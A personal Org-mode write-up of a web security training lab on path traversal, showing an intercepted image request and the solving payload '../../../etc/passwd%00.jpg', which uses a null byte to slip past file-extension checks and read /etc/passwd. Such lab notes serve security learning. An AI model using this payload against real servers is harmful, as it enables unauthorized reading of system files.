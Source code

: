 #+TITLE: File path traversal, validation of file extension with null byte bypass
#+OPTIONS: toc:2

* Table of Contents :toc:
- [[#lab-contains][Lab Contains]]
- [[#end-goal][End Goal]]
- [[#solution][Solution]]
  - [[#request][Request]]
- [[#payload-to-solve-lab][Payload to Solve Lab]]

* Lab Contains
- path traversal in display of product images
- validates with expected ~file extension~
* End Goal
- retrieve the contents of ~/etc/passwd~ file
* DONE Solution
CLOSED: [2023-08-06 Sun 19:27]
- access the lab
- open a product image on new tab of browser
- intercept this request with proxy (burpsuite) and send it to repeater
** Request
#+begin_src 
  GET /image?filename=8.jpg HTTP/2
  Host: 0aa8005903d0c7d6807b9e1100c30078.web-security-academy.net
  Cookie: session=BAnjPDuKUlxmz8joCXph2MfvbynPtAbI
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Dnt: 1
  Referer: https://0aa8005903d0c7d6807b9e1100c30078.web-security-academy.net/
  Upgrade-Insecure-Requests: 1
  Sec-Fetch-Dest: document
  Sec-Fetch-Mode: navigate
  Sec-Fetch-Site: same-origin
  Sec-Fetch-User: ?1
  Sec-Gpc: 1
  Te: trailers
#+end_src
/Here filename parameter just using filename/ 

*** DONE Try with ~/etc/passwd~ payload
CLOSED: [2023-08-06 Sun 19:27]
- 400: *No such file*
/So it is expecting a file with known file extension/ 
+ We can bypass with ~null byte~ technique

* DONE Payload to Solve Lab
CLOSED: [2023-08-06 Sun 19:28]
~../../../etc/passwd%00.jpg~
